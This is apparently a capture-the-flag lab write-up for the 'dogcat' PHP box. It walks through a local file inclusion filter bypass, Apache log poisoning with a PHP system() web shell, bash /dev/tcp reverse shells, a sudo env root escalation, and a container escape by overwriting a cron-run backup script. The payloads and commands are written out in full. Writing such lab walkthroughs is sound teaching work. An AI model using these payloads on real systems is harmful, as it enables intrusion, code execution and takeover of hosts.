## Scenario

> I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!

Access via: `10.113.189.39`

## Reconnaissance

Ran a full TCP port sweep first, to not miss anything sitting on an unusual port.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.189.39 -p- -T4
[sudo] password for —REDACTED—:
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-26 18:20 +0200
Nmap scan report for 10.113.189.39
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 20.98 seconds
```

Only `22` and `80` came back open. I followed up with version and default-script detection on those two specifically:

```shell
└─$ sudo nmap 10.113.189.39 -p22,80 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-26 18:21 +0200
Nmap scan report for 10.113.189.39
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.50 seconds
```

Port 80 was an Apache/Debian box running a site titled "dogcat", and that's where I focused.

## Exploring the Application

The homepage was a simple page asking whether I wanted to see a dog or a cat.



Wappalyzer's fingerprint matched the nmap result and added the language and OS: Apache HTTP Server 2.4.38, PHP 7.4.3, Debian.



Viewing the page source at this point showed nothing beyond the two plain links, `/?view=dog` and `/?view=cat`, with no server-side logic visible from the client side.



Picking "A cat" set the URL to `http://10.113.189.39/?view=cat` and rendered a cat photo on the page, confirming the `view` parameter controls what's displayed.



## Finding the LFI

With a parameter called `view` taking values like `dog` and `cat`, directory traversal was the obvious thing to try first.

```
http://10.113.189.39/?view=../../../../../../etc/hosts
```



That got blocked with "Sorry, only dogs or cats are allowed." I hypothesised that there was a filter requiring the string `dog` or `cat` to appear somewhere in the `view` value, so I tried prefixing the traversal with `cat/` to see whether it would bypass whatever filter there is: 

```
http://10.113.189.39/?view=cat/../../../../../etc/hosts
```



The error message essentially confirmed the filter was a simple substring check, and that it could be defeated by tucking the traversal after an allowed keyword, which presumably is `cat` and `dog`. It also seems like it appends a `.php` to our payload.

Trying to actually confirm what the filter entailed, I tried reading the actual source code by wrapping the same traversal in PHP's `php://filter` stream with base64 encoding, which returns a file's raw contents:

```
http://10.113.189.39/?view=php://filter/read=convert.base64-encode/resource=./cat/../index
```

**Breakdown:**

- `php://filter/` is PHP's filter stream wrapper, used here instead of a plain file path
- `read=convert.base64-encode` applies a base64-encode filter to whatever gets read, so PHP source is returned as text instead of being executed
- `resource=./cat/../index` is the file to read: the `cat/../` segment keeps the mandatory `cat` substring in the parameter while cancelling out to just `./index`, and the `.php` extension gets appended server-side

The request reads `index.php`'s own source code as base64 text, rather than letting the server execute it, which isn't what we want. 

The response was a long base64 string, which I decoded locally: 



```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo 'PCFET0NUWVBFIEhUTUw+...<SNIP>...' | base64 -d
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

This reveals the vulnerable logic directly: 

* the filter only checks that the `view` value contains `dog` or `cat` anywhere in it
* `$ext` defaults to `.php` but can be overridden (including emptied) by an `ext` parameter of my own. 

This means that any arbitrary file can be included, as long as `dog` or `cat` appears somewhere in the path and the `ext` parameter is supplied to stop `.php` being appended.

## Confirming Arbitrary File Read

With the `ext` trick established, I pulled `/etc/passwd`:

```
http://10.113.189.39/?view=cat/../../../../../../../../etc/passwd&ext
```

**Breakdown:**

- `cat/../../../../../../../../etc/passwd` keeps the required `cat` substring while traversing up to the filesystem root and down into `/etc/passwd`
- `&ext` supplies an empty `ext` parameter, which `isset()` still treats as present, so PHP uses the empty string instead of appending `.php`



That returned the full password file content rendered inline on the page, confirming the PoC. 

To find what else was worth reading, I fuzzed for common interesting file paths using the same traversal:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.113.189.39/?view=cat/../../../../../../../../FUZZ&ext' -w /usr/share/wordlists/dragonjar/LFI-WordList-Linux -ic -c -fs 0-1000
...
/etc/passwd             [Status: 200, Size: 1356, Words: 78, Lines: 39, Duration: 34ms]
/proc/self/fd/7         [Status: 200, Size: 1299566, Words: 116458, Lines: 7786, Duration: 53ms]
/var/log/apache2/access.log [Status: 200, Size: 1342172, Words: 120133, Lines: 8031, Duration: 53ms]
...
```

`/var/log/apache2/access.log` stood out as both readable and a classic log-poisoning target, since Apache's access log records the client's `User-Agent` verbatim, and PHP's `include()` executes any PHP tags found in whatever file it loads—including a log file.



## From LFI to RCE via Log Poisoning

The plan: get a PHP payload recorded as a request's `User-Agent`, then `include()` the log file so PHP parses and runs it.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison

┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://10.113.189.39/index.php' -H @Poison -v
...
> User-Agent: <?php system($_GET['cmd']); ?>
...
```

With the payload confirmed sitting in the log, triggering it through the LFI with no `cmd` set produced a PHP warning rather than silence, which was itself useful confirmation that the code was executing:

```
view-source:http://10.113.189.39/?view=cat/../../../../../../../../var/log/apache2/access.log&ext
```

```
Warning: system(): Cannot execute a blank command in /var/log/apache2/access.log on line 8264
```



Supplying a real command through `cmd` returned its output instead of the warning:


```
view-source:http://10.113.189.39/?view=cat/../../../../../../../../var/log/apache2/access.log&ext&cmd=ls
```

```
—REDACTED— - - [26/Nov/2026:17:08:59 +0000] "GET /?view=cat HTTP/1.1" 200 653 "-" "cat.php
cats
dog.php
dogs
flag.php
index.php
style.css
```



I read `flag.php` the same way:

```
view-source:http://10.113.189.39/?view=cat/../../../../../../../../var/log/apache2/access.log&ext&cmd=cat+flag.php
```

```
—REDACTED— - - [26/Nov/2026:17:08:59 +0000] "GET /?view=cat HTTP/1.1" 200 653 "-" "<?php
$flag_1 = "—REDACTED—"
?>
"
```



### Question — What is flag 1?

**Answer:** `—REDACTED—`

## Getting a Reverse Shell

Running every command through the log-poisoning URL was workable but tedious, so the next step was an interactive shell. First I confirmed a shell was available on the target:

```
view-source:http://10.113.189.39/?view=cat/../../../../../../../../var/log/apache2/access.log&ext&cmd=which+bash
```

```
/bin/bash
```


With that confirmed, I built a bash reverse shell one-liner, set up a listener, and URL-encoded the payload to send through the `cmd` parameter:

```shell
bash -c 'bash -i >& /dev/tcp/—REDACTED—/4444 0>&1'
```

```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F—REDACTED—%2F4444%200%3E%261%27
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

```
view-source:http://10.113.189.39/?view=cat/../../../../../../../../var/log/apache2/access.log&ext&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F—REDACTED—%2F4444%200%3E%261%27
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [—REDACTED—] from (UNKNOWN) [10.113.189.39] 36016
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@909d2de6416c:/var/www/html$
```

That got a shell as `www-data`. 

```shell
www-data@909d2de6416c:/var/www/html$ export TERM=256color
```

I checked for Python, intending to use it to stabilise the shell into a proper TTY:

```shell
www-data@909d2de6416c:/var/www/html$ which python
www-data@909d2de6416c:/var/www/html$ which python2
www-data@909d2de6416c:/var/www/html$ which python3
```

None of the three were present. Rather than fight the shell further, I killed the connection and restarted the listener wrapped in `rlwrap`, which gives usable line editing and history on the receiving end without needing anything extra on the target:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [—REDACTED—] from (UNKNOWN) [10.113.189.39] 36046
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@909d2de6416c:/var/www/html$
```

With a working shell, I searched for the next flag:

```shell
www-data@909d2de6416c:/var/www/html$ find / -name "*flag*.txt" 2>/dev/null
/var/www/flag2_QMW7JvaY2LvK.txt
```

Found it. Read it. 

```shell
www-data@909d2de6416c:/var/www$ cat flag2_QMW7JvaY2LvK.txt
—REDACTED—
```

### Question — What is flag 2?

**Answer:** `—REDACTED—`

## Privilege Escalation to Root (in the Container)

With no other flags visible under `/`, and `/etc/passwd` showing the same ordinary system accounts I'd already seen via the LFI, it seemed that to get the rest of the flags I would need to privilege-escalate. 

First, I checked for passwordless sudo rights:

```shell
www-data@909d2de6416c:/var/www$ sudo -l
Matching Defaults entries for www-data on 909d2de6416c:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 909d2de6416c:
    (root) NOPASSWD: /usr/bin/env
```

`www-data` could run `/usr/bin/env` as root with no password. I checked GTFOBins for `env`'s privilege-escalation entry:



Its documented shell-spawning technique applied directly, since running `env` with a command argument via `sudo` executes that command with the inherited (root) privileges rather than dropping them:

```shell
www-data@909d2de6416c:/var/www$ sudo env /bin/sh
whoami
root
```

That gave a root shell, confirmed with `whoami`. I searched for flags again:

```shell
find / -name "*flag*.txt" 2>/dev/null
/var/www/flag2_QMW7JvaY2LvK.txt
/root/flag3.txt
```

```shell
cd /root
cat flag3.txt
—REDACTED—
```

### Question — What is flag 3?

**Answer:** `—REDACTED—`

## Escaping the Container

Being root and still not finding a fourth flag anywhere under `/` was odd enough to be worth digging into further. Looking around outside the web root turned up a backups directory:

```shell
cd /opt
ls -la
total 12
drwxr-xr-x 1 root root 4096 Nov 26 16:20 .
drwxr-xr-x 1 root root 4096 Nov 26 16:20 ..
drwxr-xr-x 2 root root 4096 Apr  8  2020 backups
cd backups
ls -la
total 2892
drwxr-xr-x 2 root root    4096 Apr  8  2020 .
drwxr-xr-x 1 root root    4096 Nov 26 16:20 ..
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Nov 26 17:40 backup.tar
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

The path inside the script, as well as the unusual hostname of `909d2de6416c` back when we were `www-data`, indicated that I am currently inside a container. `backup.sh` gets run periodically by something outside the container—most likely a host-side cron job—tarring up this container's filesystem, with `/opt/backups` here being the same storage as the host's `/root/container/backup`, just bind-mounted into the container at a different path. That meant as container-root, I could still write to a file something with host-root privileges would later execute. 

I overwrote `backup.sh` with a reverse-shell one-liner:

```shell
echo 'bash -c "bash -i >& /dev/tcp/—REDACTED—/1234 0>&1"' > backup.sh
cat backup.sh
bash -c "bash -i >& /dev/tcp/—REDACTED—/1234 0>&1"
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
```

Then waited for the scheduled job to pick the modified script up and run it:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [—REDACTED—] from (UNKNOWN) [10.113.189.39] 33008
bash: cannot set terminal process group (6611): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~#
```

The prompt changed from the container ID to `dogcat`, suggesting this shell was running on the host rather than inside the container. I checked `/root` to confirm:

```shell
root@dogcat:~# ls /root
container
flag4.txt
```

The `container` directory being present (the one the backup script had been tarring) confirmed this was the real host filesystem. The final flag also conveniently sat there. 

```shell
root@dogcat:~# cd /root
root@dogcat:~# cat flag4.txt
—REDACTED—
```

### Question — What is flag 4?

**Answer:** `—REDACTED—`